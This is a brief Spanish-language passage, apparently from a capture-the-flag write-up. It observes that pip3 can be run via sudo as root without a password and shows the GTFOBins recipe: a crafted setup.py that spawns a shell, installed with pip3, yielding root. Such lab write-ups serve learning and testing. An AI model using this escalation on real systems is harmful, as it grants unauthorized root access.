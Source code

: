 vemos aqui que podemos utilizar la heramienta pip3 con el privilegio del usuario root sin proporcionar contraseña.

Miramos en [GTFOBINS](https://gtfobins.github.io/gtfobins/pip/#sudo)

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
pip3 install $TF

whoami
#Output
root
```
